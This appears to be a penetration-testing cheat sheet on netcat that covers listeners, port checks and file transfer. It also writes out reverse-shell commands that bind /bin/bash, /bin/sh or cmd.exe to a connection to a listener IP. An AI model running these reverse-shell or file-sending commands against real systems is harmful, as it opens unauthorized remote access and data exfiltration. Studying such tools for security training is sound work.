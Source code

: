# netcat (nc)

NetCat is a popular remote access tool.
- It has a small footprint so it's portable.
- It can set up a reverse shell easily.
- In Kali the Windows executable is found here: `/usr/share/windows-binaries/nc.exe`

## Listener

```
nc -nvlp 1234
```

**Options:**
- `-n` : numeric-only IP addresses, no DNS
- `-v` : verbose (twice for more verbosity)
- `-l` : listen mode; for in-bound connects
- `p [port]` : port number

## Connect

Connect to a listener from Linux:
```
nc [listener IP] [port] –e /bin/bash
nc [listener IP] [port] –e /bin/sh
```

Connect to a listener from Windows:
```
nc.exe [listener IP] [port] –e cmd.exe
```

## Manually Check Ports

`nc -nv [target ip] [port]`

Nmap will find open ports, and a service version scan will most often provide detailed information about what services (and their versions) are running on those open ports.
- This is not, however, the case all the time. 
- Whenever you see a question mark next to an nmap result, that means nmap is give you a best guess.
- You should always check these items **_manually_** with Netcat.

## File Input/Output

Send output from a listener to a text file:
```
nc -nvlp [port number] > filename.txt
```

Send output from a text file to a remote machine:
```
nc [IP Address] [port] < filename.txt
```
